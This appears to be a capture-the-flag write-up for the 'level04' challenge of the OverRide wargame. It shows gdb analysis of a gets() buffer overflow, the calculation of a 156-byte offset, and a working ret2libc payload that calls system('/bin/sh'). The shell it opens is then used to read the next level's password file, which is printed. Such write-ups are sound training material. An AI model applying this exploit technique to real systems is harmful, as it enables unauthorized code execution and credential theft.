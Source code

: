# level04

We begin the reconnaissance phase by analyzing the binary called `level04`. Upon debugging it with gdb, we discover that it is a 32-bit binary and it utilizes the `gets` function. This function has a vulnerability that enables us to perform a buffer overflow attack. Now, we aim to exploit this vulnerability and execute our attack.

```bash
   0x08048757 <+143>:   lea    eax,[esp+0x20]
   0x0804875b <+147>:   mov    DWORD PTR [esp],eax
   0x0804875e <+150>:   call   0x80484b0 <gets@plt>
```

In our binary system, the fork function is used to generate a child process within which we receive input. The parent process utilizes the wait function to pause its execution and wait for the child process to complete before continuing further.

so let calculat our buffer size .

```bash

(gdb) x/wx $esp+0x20 // adress of var passed to gets
0xffffd650:	0x00000000
(gdb) x/wx $ebp+4 // adress of return adress
0xffffd6ec:	0xf7e45513
(gdb) p/d 0xffffd6ec - 0xffffd650  //calculate the  buffer size
$1 = 156
```

we need the system function to execute our shell command , with the /bin/sh as argument .

```bash
(gdb) p &system
$4 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) info  proc mapping
process 1746
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fd9000 0xf7fda000     0x1000        0x0
	0xf7fda000 0xf7fdb000     0x1000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000 , "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
(gdb)
```

we find the adress of /bin/sh in the libc `0xf7f897ec `, so we can use it as argument for system function `0xf7e6aed0` .
let buil our exploit and use it to get the flag .

```bash
   python -c 'print "A" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "BBBB" + "\xf7\xf8\x97\xec"[::-1]'> exploit
   level04@OverRide:~$ (cat exploit ; cat ) | ./level04
   Give me some shellcode, k
   whoami
   level05
   pwd
   /home/users/level04
   cat /home/users/level05/.pass
   3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
